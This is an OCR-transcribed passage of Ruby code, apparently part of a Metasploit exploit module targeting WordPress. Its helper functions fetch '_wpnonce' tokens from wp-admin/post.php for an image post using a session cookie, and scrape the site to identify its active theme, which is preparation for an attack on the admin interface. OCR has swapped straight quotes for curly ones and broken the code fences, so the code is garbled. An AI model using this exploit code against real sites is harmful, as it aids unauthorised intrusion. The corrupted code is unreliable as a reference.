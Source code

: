 ```
‘uri’       => uri,

‘cookie’ => cookie

)

if res && res.code == 200 && res.body && !res.body.empty?

res.get_hidden_inputs.first["_wpnonce"]

end

end

def get_wpnonce2(image_id, cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘post.php’)

res = send_request_cgi(

‘method’    => ‘GET’,

‘uri’       => uri,

‘cookie’    => cookie,

‘vars_get’  => {

‘post’   => image_id,

‘action’ => “edit”

}

)

if res && res.code == 200 && res.body && !res.body.empty?

tmp = res.get_hidden_inputs

wpnonce2 = tmp[1].first[1]

end

end

def get_current_theme

uri = normalize_uri(datastore[‘TARGETURI’])

res = send_request_cgi!(

‘method’    => ‘GET’,

‘uri’       => uri

)

fail_with(Failure::NotFound, ‘Failed to access Wordpress page to retrieve theme.’) unless res && res.code == 200 && res.body && !res.body.empty?

```
theme = res.body.scan(/\/wp-content\/themes\/(\w+)\//).flatten.first